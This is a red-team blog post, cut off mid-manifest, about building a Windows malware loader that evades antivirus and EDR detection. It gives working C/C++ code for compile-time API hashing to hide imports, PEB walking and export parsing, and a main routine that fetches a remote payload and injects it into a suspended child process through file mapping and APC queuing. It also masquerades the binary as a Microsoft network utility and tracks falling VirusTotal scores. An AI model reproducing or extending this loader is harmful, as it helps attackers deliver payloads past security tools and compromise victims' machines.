





+++
title = 'Stripping the Binary Clean: Hiding the malware indicators'
date = 2026-04-30T21:44:31-04:00
tags = ["red team", "programming", "malware development"]
+++

In my last attempt to build a loader while I did land to no detections over free-tier elastic defend EDR capabilities there were a *lot* of nuances. The 'release' build was detected and literally had the PDB path with the word `loader` embedded into the binary. Professional hacker momemnts. The following is my attempt of stripping the binary clean of the possible indicators of malicious behaviour with aim to achieve 0 detections on VirusTotal, leveraging IAT hiding through compile-time API hashing and creating a legitimate utility identity through versioning and manifest with some further cleansing of the project you'll encounter as you read.

## What Indicators?

The VirusTotal scan for the last build of the loader demonstrated that disassembling/decompilation capabilities through `code insights` provided following insights into the binary:


As I was sticking to the pseudo-identity of network utility tool called `NetUtil` thus my first targets where WinAPIs being used for remote mapping injection and APC injection. The WinInet functions, being used to fetch the payload, were not an immediate issue for me.

## API Hashing for IAT Hiding

The well-known-personalities-in-the-malware-world functions of `CreateProcess`, `WriteProcessMemory`, `CreateFileMapping`, `MapViewOfFile`, `MapViewOfFile2`, `QueuerUserAPC`, `DebugActiveProcessStop` where present in the import address table of the binary which would've provided easy indicators to any scanner.

To resolve these functions through DLL module walking at runtime; levaraging a unique hash value for each of the functions mentioned was my goto approach to hide them from IAT.

### Hash Functions

I wanted a compile-time hashing capability that would help me to deduce a random seed value for every build that is compiled thus eliminating the constant hashes across builds (another possible indicator in the longer run).

The `constexpr` expressions in C++ do allow the flexibility of compile-time evaluation of statements but came at the cost of adding C++ to until-now a C project.

Furthermore, the `constexpr` expressions require no involvement of functions that are to be resolved from a shared module. The entire expression should exist entirely and depend on functions in the existing code-base. This somewhat limited the available hash function options to me.

I browsed through the [VX-API](https://github.com/vxunderground/vx-api) repository and landed on `HashStringFowlerNollVoVariant1a`.

```c
ULONG HashStringFowlerNollVoVariant1aA(_In_ LPCSTR String)
{
	ULONG Hash = 0x811c9dc5;

	while (*String)
	{
		Hash ^= (UCHAR)*String++;
		Hash *= 0x01000193;
	}

	return Hash;
}
```

I added a little modification to make the function case-insensitive as there might be some difference between how I write the module name compared to the module name populated by the loader at runtime.

```c
constexpr ULONG HashStringFowlerNollVoVariant1aA(IN LPCSTR String)
{
	ULONG Hash = g_InitHash;

	while (*String)
	{
		UCHAR c = *String++;
		if (c >= 'A' && c <= 'Z')
			Hash ^= c + 0x20;
		else
			Hash ^= c;
		Hash *= 0x01000193;
	}

	return Hash;
}
```

Notice the `constexpr` prefix for compile time evaluation. The wide-character version `HashStringFowlerNollVoVariant1aW` worked similarly. Both the implementations start with an initial hash `g_InitHash` value. This is a global variable containing the random-seed I described the need for. It is derived from the time of compilation as follows:

```c
constexpr ULONG RandomCompileTimeSeed(void) {
	return
		(__TIME__[7] - '0') +
		(__TIME__[6] - '0') * 10 +
		(__TIME__[4] - '0') * 60 +
		(__TIME__[3] - '0') * 600 +
		(__TIME__[1] - '0') * 3600 +
		(__TIME__[0] - '0') * 36000;
}

constexpr ULONG g_InitHash = RandomCompileTimeSeed();
```

Now that I look at it, I should've added date of compilation too, well there's always next time.

I also defined some helper macros to leverage these hash functions both at the compile-time and during execution at runtime.

```c
// Compile-time macros to define the hash values for WinAPI functions
// It defines variables at compile time with the format:
//			constexpr auto WinApiFuncName_FnvvA/W = HashValue
#define CTIME_HFOWLERA(API) constexpr auto API##_FnvvA = HashStringFowlerNollVoVariant1aA((LPCSTR) #API);
#define CTIME_HFOWLERW(API) constexpr auto API##_FnvvW = HashStringFowlerNollVoVariant1aW((LPCWSTR) L#API);

// Runtime macros to call respective hash function during WinAPI resolution
#define	RTIME_HFOWLERA(API) HashStringFowlerNollVoVariant1aA((LPCSTR)API)
#define RTIME_HFOWLERW(API) HashStringFowlerNollVoVariant1aW((LPCWSTR)API)
```

The `CTIME_HFOWLERA` macros create variables at compile time with `_FnnvA` suffix or `_FnvvW` suffix onto the function name for which the hash function was called.

### The runtime-resolution logic

A basic approach to retrieve function address is to define the function signature as a type and populate a pointer to that type using `GetModuleHandle` and `GetProcAddress` calls.

```c
HANDLE      moduleHandle    = GetModuleHandle("moduleName");
funcType    funcPtr         = GetProcAddress(moduleHandle, "functionName");
```

Thus, I needed custom implmentations that would work as follows

```c
HANDLE      moduleHandle    = GetModuleHandleCustom(moduleNameHash);
functype    funcPtr         = GetProcAddressCustom(moduleHandle, functionNameHash);
```

#### GetModuleHandleCustom

I defined a structure to store an internal representation of module.

```c
// My representation of a Module; helps to cache some attributes
typedef struct {
	HMODULE	ModuleHandle;			// DllBase
	ULONG	ModuleHash;				// FowlerNollVoVariant1a hash of module name
	DWORD	NumberOfFunctions;		// Count of the functions in the module
	PDWORD	FunctionNameArray;		// Array of function names
	PDWORD	FunctionAddressArray;	// Array of function addresses
	PWORD	FunctionOrdinalArray;	// Array of function indexes
} WINAPI_MODULE, * PWINAPI_MODULE;
```

The caller function populates a structure of `WINAPI_MODULE` with module name's hash in `ModuleHash` for each module to be resolved. Next, pointer to this structure is passed onto the following `GetModuleHandleCustom` function which:
- fetches the process environment block for the currently running process
- parses the `PEB_LDR_DATA` for modules loaded into the process.
- compares each module's base name's hash to the provided hash. 
- if the check succeeds, populates the `ModuleHandle` with the base address of the module.

```c
BOOL GetModuleHandleCustom(
	IN	PWINAPI_MODULE	pWinApiMod
) {
	if (!pWinApiMod || pWinApiMod->ModuleHash == 0)
		return FALSE;

#ifdef _WIN64
	PPEB	pPeb = (PPEB)(__readgsqword(0x60));
#elif _WIN32
	PPEB	pPeb = (PPEB)(__readfsdword(0x30));
#endif // _WIN64

	PPEB_LDR_DATA	pLdr		= (PPEB_LDR_DATA)(pPeb->Ldr);
	PLIST_ENTRY		pDteHead	= &(pLdr->InMemoryOrderModuleList);
	PLIST_ENTRY		pDteCurrent = pDteHead->Flink;

	do {
		PLDR_DATA_TABLE_ENTRY	pDte = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pDteCurrent- offsetof(LDR_DATA_TABLE_ENTRY, InMemoryOrderModuleList));

		if (pDte->BaseDllName.Length != 0) {
			if (RTIME_HFOWLERW(pDte->BaseDllName.Buffer) == pWinApiMod->ModuleHash) {
				pWinApiMod->ModuleHandle = (HMODULE)pDte->DllBase;
				return TRUE;
			}
		}

		pDteCurrent = pDteCurrent->Flink;
	} while (pDteCurrent != pDteHead);

	return FALSE;
}
```

#### GetProcAddressCustom

The `GetProcAddressCustom` implementation expects pointer to structure populated by `GetModuleHandleCustom` and hash of the function name. Next, it:

- checks if the module was already parsed and required arrays have been resolved.
- if not, (in case of first call for a module), it parses the DLL PE image and sets the `NumberOfFunctions`, `FunctionNameArray`, `FunctionAddressArray`, `FunctionOrdinalArray` values that are to be used directy in subsequent calls.
- it iterates over each function name and compares their hash to the provided hash value.
- if the check succeeds, it fetches and returns the address for the target function within the module.

```c
FARPROC GetProcAddressCustom(
	IN OUT	PWINAPI_MODULE	pWinApiMod,
	IN		ULONG			uApiHash
) {
	PBYTE	pBase = (PBYTE)(pWinApiMod->ModuleHandle);

	if (pWinApiMod->NumberOfFunctions == 0) {
		PIMAGE_DOS_HEADER	pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;

		if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
			return NULL;

		PIMAGE_NT_HEADERS	pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);

		if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
			return NULL;

		IMAGE_OPTIONAL_HEADER	ImgOptHdr = pImgNtHdrs->OptionalHeader;
		PIMAGE_EXPORT_DIRECTORY	pImgExpDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

		pWinApiMod->NumberOfFunctions	 = pImgExpDir->NumberOfFunctions;
		pWinApiMod->FunctionNameArray	 = (PDWORD)(pBase + pImgExpDir->AddressOfNames);
		pWinApiMod->FunctionAddressArray = (PDWORD)(pBase + pImgExpDir->AddressOfFunctions);
		pWinApiMod->FunctionOrdinalArray = (PWORD )(pBase + pImgExpDir->AddressOfNameOrdinals);
	}

	for (DWORD i = 0; i < pWinApiMod->NumberOfFunctions; i++) {
		CHAR* pFunctionName = (CHAR*)(pBase + pWinApiMod->FunctionNameArray[i]);

		if (RTIME_HFOWLERA(pFunctionName) == uApiHash) {
			PVOID pFunctionAddr = (PVOID)(pBase + pWinApiMod->FunctionAddressArray[pWinApiMod->FunctionOrdinalArray[i]]);
			return (FARPROC)pFunctionAddr;
		}
	}

	return NULL;

}
```

#### Sticking the pieces together

The program uses `CTIME_HFOWLERW` macros to define WinAPI function hashes at compile time. I also calculated hashes for the module names, to remove hardcoded strings with module names and leverage custom implementation of `GetModuleHandle`.

```c
// define hashes for the WinAPI functions at compile-time
CTIME_HFOWLERW(CreateProcessW);
CTIME_HFOWLERW(WriteProcessMemory);
CTIME_HFOWLERW(CreateFileMappingW);
CTIME_HFOWLERW(MapViewOfFile);
CTIME_HFOWLERW(MapViewOfFileNuma2);
CTIME_HFOWLERW(QueueUserAPC);
CTIME_HFOWLERW(DebugActiveProcessStop);

// define hash for kernel32.dll and kernelbase.dll at compile-time
constexpr ULONG KERNEL32_DLL_FnvvW		= HashStringFowlerNollVoVariant1aW(L"KERNEL32.DLL");
constexpr ULONG	KERNELBASE_DLL_FnnvW	= HashStringFowlerNollVoVariant1aW(L"KERNELBASE.DLL");
```

Next, I created a structure - `H_API`, to hold the *pointers-of-interest* i.e. function pointers to each function that would be resolved through their hash.

And it was at this moment I realised that `MapViewOfFile2` is a wrapper over `MapViewOfFileNuma2`. NUMA or **Non-Uniform Memory Access** is a fancy term to explain that in multi-processor system accessing local memory memory of a CPU is faster than accessing memory of another CPU - thus the non-uniformity. Numa node specifies the memory where the mapped section would reside. For our intent and purposes we'd hardcode it to `NUMA_NO_PREFERRED_NODE`.

```c
// My representation of collection of all hashed functions
typedef struct {
	fnCreateProcessW			pCreateProcessW;			// from kernel32.dll
	fnWriteProcessMemory		pWriteProcessMemory;		// from kernel32.dll
	fnCreateFileMappingW		pCreateFileMappingW;		// from kernel32.dll
	fnMapViewOfFile				pMapViewOfFile;				// from kernel32.dll
	fnQueueUserAPC				pQueueUserAPC;				// from kernel32.dll
	fnDebugActiveProcessStop	pDebugActiveProcessStop;	// from kernel32.dll
	fnMapViewOfFileNuma2		pMapViewOfFileNuma2;		// from kernelbase.dll
} H_API, * PH_API;
```

Each function type definition was sourced from microsoft documentation.

```c
//\
https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw
typedef BOOL(WINAPI* fnCreateProcessW)(
	IN		OPTIONAL	LPCWSTR               lpApplicationName,
	IN	OUT	OPTIONAL	LPWSTR                lpCommandLine,
	IN		OPTIONAL    LPSECURITY_ATTRIBUTES lpProcessAttributes,
	IN		OPTIONAL    LPSECURITY_ATTRIBUTES lpThreadAttributes,
	IN					BOOL                  bInheritHandles,
	IN					DWORD                 dwCreationFlags,
	IN		OPTIONAL    LPVOID                lpEnvironment,
	IN		OPTIONAL    LPCWSTR               lpCurrentDirectory,
	IN					LPSTARTUPINFOW        lpStartupInfo,
	OUT					LPPROCESS_INFORMATION lpProcessInformation
	);

//\
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory
typedef BOOL(WINAPI* fnWriteProcessMemory)(
	IN  HANDLE  hProcess,
	IN  LPVOID  lpBaseAddress,
	IN  LPCVOID lpBuffer,
	IN  SIZE_T  nSize,
	OUT SIZE_T* lpNumberOfBytesWritten
	);

//\
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-createfilemappingw
typedef HANDLE(WINAPI* fnCreateFileMappingW)(
	IN           HANDLE                hFile,
	IN	OPTIONAL LPSECURITY_ATTRIBUTES lpFileMappingAttributes,
	IN           DWORD                 flProtect,
	IN           DWORD                 dwMaximumSizeHigh,
	IN           DWORD                 dwMaximumSizeLow,
	IN	OPTIONAL LPCWSTR               lpName
	);

//\
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile
typedef LPVOID(WINAPI* fnMapViewOfFile)(
	IN HANDLE hFileMappingObject,
	IN DWORD  dwDesiredAccess,
	IN DWORD  dwFileOffsetHigh,
	IN DWORD  dwFileOffsetLow,
	IN SIZE_T dwNumberOfBytesToMap
	);

//\
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffilenuma2
typedef PVOID(WINAPI* fnMapViewOfFileNuma2)(
	IN           HANDLE  FileMappingHandle,
	IN           HANDLE  ProcessHandle,
	IN           ULONG64 Offset,
	IN	OPTIONAL PVOID   BaseAddress,
	IN           SIZE_T  ViewSize,
	IN           ULONG   AllocationType,
	IN           ULONG   PageProtection,
	IN			 ULONG   PreferredNode
	);

//\
https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc
typedef DWORD(WINAPI* fnQueueUserAPC)(
	IN PAPCFUNC  pfnAPC,
	IN HANDLE    hThread,
	IN ULONG_PTR dwData
	);

//\
https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-debugactiveprocessstop
typedef BOOL(WINAPI* fnDebugActiveProcessStop)(
	IN DWORD dwProcessId
	);
```

I defined a function called `InitApis` that populates a pointer value to the `H_API` structure containing function addresses resolved through custom procedures defined above.

```c
BOOL InitApis(
	OUT	PH_API*			ppHashedApis
) {
	DEBUG_PRINT("g_InitHash: %d\n", g_InitHash);

	PWINAPI_MODULE	pKernel32			= (PWINAPI_MODULE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(WINAPI_MODULE));
	PWINAPI_MODULE	pKernelbase			= (PWINAPI_MODULE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(WINAPI_MODULE));
	PH_API			pHashedApis			= (PH_API)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(H_API));

	if (!pKernel32 || !pKernelbase || !pHashedApis) {
		DEBUG_PRINT("Failed to allocate memory in InitApis.\n");
		return FALSE;
	}

	pKernel32->ModuleHash = KERNEL32_DLL_FnvvW;
	GetModuleHandleCustom(pKernel32);				// populates pKernel32->ModuleHandle

	if (!pKernel32->ModuleHandle) {
		DEBUG_PRINT("Failed to retrive kernel32.dll handle.\n");
		return FALSE;
	}

	pKernelbase->ModuleHash = KERNELBASE_DLL_FnnvW;
	GetModuleHandleCustom(pKernelbase);				// populates pKernelbase->ModuleHandle

	if (!pKernelbase->ModuleHandle) {
		DEBUG_PRINT("Failed to retrive kernelbase.dll handle\n");
		return FALSE;
	}


	pHashedApis->pCreateProcessW = (fnCreateProcessW)GetProcAddressCustom(pKernel32, CreateProcessW_FnvvW);
	if (!pHashedApis->pCreateProcessW) {
		DEBUG_PRINT("Failed to resolve CreateProcessW.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"CreateProcessW\" address: 0x%p\n", pHashedApis->pCreateProcessW);

	pHashedApis->pWriteProcessMemory = (fnWriteProcessMemory)GetProcAddressCustom(pKernel32, WriteProcessMemory_FnvvW);
	if (!pHashedApis->pWriteProcessMemory) {
		DEBUG_PRINT("Failed to resolve WriteProcessMemory.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"WriteProcessMemory\" address: 0x%p\n", pHashedApis->pWriteProcessMemory);

	pHashedApis->pCreateFileMappingW = (fnCreateFileMappingW)GetProcAddressCustom(pKernel32, CreateFileMappingW_FnvvW);
	if (!pHashedApis->pCreateFileMappingW) {
		DEBUG_PRINT("Failed to resolve CreateFileMappingW.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"CreateFileMappingW\" address: 0x%p\n", pHashedApis->pCreateFileMappingW);

	pHashedApis->pMapViewOfFile = (fnMapViewOfFile)GetProcAddressCustom(pKernel32, MapViewOfFile_FnvvW);
	if (!pHashedApis->pMapViewOfFile) {
		DEBUG_PRINT("Failed to resolve MapViewOfFile.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"MapViewOfFile\" address: 0x%p\n", pHashedApis->pMapViewOfFile);

	pHashedApis->pQueueUserAPC = (fnQueueUserAPC)GetProcAddressCustom(pKernel32, QueueUserAPC_FnvvW);
	if (!pHashedApis->pQueueUserAPC) {
		DEBUG_PRINT("Failed to resolve QueueUserAPC.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"QueueUserAPC\" address: 0x%p\n", pHashedApis->pQueueUserAPC);

	pHashedApis->pDebugActiveProcessStop = (fnDebugActiveProcessStop)GetProcAddressCustom(pKernel32, DebugActiveProcessStop_FnvvW);
	if (!pHashedApis->pDebugActiveProcessStop) {
		DEBUG_PRINT("Failed to resolve DebugActiveProcessStop.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"DebugActiveProcessStop\" address: 0x%p\n", pHashedApis->pDebugActiveProcessStop);

	pHashedApis->pMapViewOfFileNuma2 = (fnMapViewOfFileNuma2)GetProcAddressCustom(pKernelbase, MapViewOfFileNuma2_FnvvW);
	if (!pHashedApis->pMapViewOfFileNuma2) {
		DEBUG_PRINT("Failed to resolve MapViewOfFileNuma2.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"MapViewOfFileNuma2\" address: 0x%p\n", pHashedApis->pMapViewOfFileNuma2);

	*ppHashedApis	= pHashedApis;
	
	return TRUE;
}
```

The `DEBUG_PRINT` macro comes from the codebase described in my [previous blog](https://ashtrace.github.io/posts/my_first_loader/).

The `DEBUG_PRINT` macro helps me to strip the debug `printf` statements and hardcoded debug strings at compilation. It controlled by `LOG_DEBUG_MSG`, when defined the `DEBUG_PRINT` statements are essentially `printf` calls specifying file and line number along with the message passed. When `LOG_DEBUG_MSG` is not defined, `DEBUG_PRINT` turns to be just a void statement.

```c
#define LOG_DEBUG_MSG

#ifdef LOG_DEBUG_MSG
#define DEBUG_PRINT(fmt, ...) \
	printf("[DEBUG] (%s:%d) " fmt "\n", __FILE__, __LINE__,  ##__VA_ARGS__)
#else
#define	DEBUG_PRINT(fmt, ...) ((void)0)
#endif // !LOG_DEBUG_MSG
```

### The import problem

Remember the `__TIME__` in compile-time random seed generation? It came to bite me as for every source file where the hashing capabilities were added, it defined a new `g_InitHash` value. To tackle this:
- I limited the import of hash function definitions only within the resolution logic, thus the compile-time hashes are defined within the scope of source-code concerned with hash-based resolution.
- The `InitApis` function acts as an entry point into the function resolution flow.
- The `main` function is made aware of `InitApis` through following statment (as header with function declaration as it would cascade into hash functions being re-evaluated for `main`).

    ```c
    extern BOOL InitApis(
        OUT	PH_API*			ppHashedApi
    );
    ```

Thus the `main` function:
- Leverages `InitApis` to initialize the functions through their hashes.
- Call the helper functions to
    - fetch the payload
    - create a child process
    - inject mapping into the child process
    - schedule call to payload through APC injection
- Remove the debugger to execute the APC call.

```c
#include "common.h"

extern BOOL InitApis(
	OUT	PH_API*			ppHashedApi
);

int wmain(int argc, wchar_t** argv) {
	PBYTE			pBlob			= NULL,
					pBlobCopy		= NULL;
	SIZE_T			sBlobSize		= 0;
	HANDLE			hProcess		= NULL,
					hThread			= NULL;
	DWORD			dwProcessID		= 0;
	PH_API			pHashedApis	= { 0 };


	InitApis(&pHashedApis);

	FetchBlob(argv[1], &pBlob, &sBlobSize);

	CreateSuspendedProcess(pHashedApis, argv[2], &hProcess, &hThread, &dwProcessID);

	CopyBlob(pHashedApis, hProcess, pBlob, sBlobSize, &pBlobCopy);

	ScheduleRun(pHashedApis, hThread, pBlobCopy);

	pHashedApis->pDebugActiveProcessStop(dwProcessID);

#ifdef LOG_DEBUG_MSG
	system("PAUSE");
#endif // !LOG_DEBUG_MSG
	return 0;
}
```

Notice that helper functions now receive the hash-resolved-function-address structure to leverage the WinAPIs through their calculated addresses. Same occurs for removing the debugger, where `DebugActiveProcessStop` is being called through its address stored in the `HashedApis` structure.

```c
pHashedApis->pDebugActiveProcessStop(dwProcessID);
```

### Benchmarks

All of this kung-fu resulted in removing the mentioned infamous functions from the binary IAT. The left pane shows the IAT of loader version from last blog-post, the right pane shows the IAT with function hashing.



A submission on VirusTotal showed that the detection score dropped from 6 to 5.


While a decrement of a single unit was appreciated, it wasn't much. As the engine was already in place, I hashed the WinInet functions too. The updated `InitApis` function included

```c
BOOL InitApis(
	OUT	PH_API* ppHashedApis
) {

    // ...

	PWINAPI_MODULE	pWininet	= (PWINAPI_MODULE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(WINAPI_MODULE));

	if (!pKernel32 || !pKernelbase || !pWininet || !pHashedApis) {
		DEBUG_PRINT("Failed to allocate memory in InitApis.\n");
		return FALSE;
	}

    // ..,

	if (!pKernelbase->ModuleHandle) {
		DEBUG_PRINT("Failed to retrive kernelbase.dll handle\n");
		return FALSE;
	}

	pWininet->ModuleHandle = LoadLibraryW(L"Wininet.dll"); 
    
    // ... 

	pHashedApis->pInternetOpenW = (fnInternetOpenW)GetProcAddressCustom(pWininet, InternetOpenW_FnvvW);
	if (!pHashedApis->pInternetOpenW) {
		DEBUG_PRINT("Failed to resolve InternetOpenW.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"InternetOpenW\" address: 0x%p\n", pHashedApis->pInternetOpenW);

	pHashedApis->pInternetOpenUrlW = (fnInternetOpenUrlW)GetProcAddressCustom(pWininet, InternetOpenUrlW_FnvvW);
	if (!pHashedApis->pInternetOpenUrlW) {
		DEBUG_PRINT("Failed to resolve InternetOpenUrlW.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"InternetOpenUrlW\" address: 0x%p\n", pHashedApis->pInternetOpenUrlW);

	pHashedApis->pInternetSetOptionW = (fnInternetSetOptionW)GetProcAddressCustom(pWininet, InternetSetOptionW_FnvvW);
	if (!pHashedApis->pInternetSetOptionW) {
		DEBUG_PRINT("Failed to resolve InternetSetOptionW.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"InternetSetOptionW\" address: 0x%p\n", pHashedApis->pInternetSetOptionW);

	pHashedApis->pInternetReadFile = (fnInternetReadFile)GetProcAddressCustom(pWininet, InternetReadFile_FnvvW);
	if (!pHashedApis->pInternetReadFile) {
		DEBUG_PRINT("Failed to resolve InternetReadFile.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"InternetReadFile\" address: 0x%p\n", pHashedApis->pInternetReadFile);

	pHashedApis->pInternetCloseHandle = (fnInternetCloseHandle)GetProcAddressCustom(pWininet, InternetCloseHandle_FnvvW);
	if (!pHashedApis->pInternetCloseHandle) {
		DEBUG_PRINT("Failed to resolve InternetCloseHandle.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"InternetCloseHandle\" address: 0x%p\n", pHashedApis->pInternetCloseHandle);
	
	*ppHashedApis = pHashedApis;

	return TRUE;
}
```

It removed the `Wininet.dll` file and the functions being imported from the IAT but at the cost of hardcoded `Wininet.dll` string in the source code as I had to load the library manually through `LoadLibraryW` for function resolution through hashes.



This further decreased the the detection rate to 4.


## Binary attributes

### Debug Information

Next, I had to target the `.pdb` path I left foolishly in the build. Visual Studio provides the option to opt-out from publishing debug info at: **Project Properties > Linker > Debugging** - setting **Generate Debug Info** to **No**.

### Version and Manifest

Creating a `NetUtil.rc` resource file, I further added a Version resource within it. I crafted the following version file to masquerade the binary as a Microsoft utility.



For the manifest, I created `app.manifest` file with following contents that defines:

- This application does not need UAC invocation
- This application is compatible across different microsoft versions (`supportedOS` GUIDs dervied from: https://learn.microsoft.com/en-us/windows/win32/sysinfo/targeting-your-application-at-windows-8-1)
- This application is DPI aware

to further add onto pseudo-legitimacy.

```xml
<?xml version="1.0" encoding="utf-8"?>
<assembly manifestVersion="1.0"
          xmlns="urn:schemas-microsoft-com:asm.v1">

  <assemblyIdentity
      version="5.6.0.1"
      processorArchitecture="amd64"
      name="Microsoft.Windows.NetworkUtil"
      type="win32" />

  <description>Network Diagnostic Utility</description>

  <!-- UAC -->
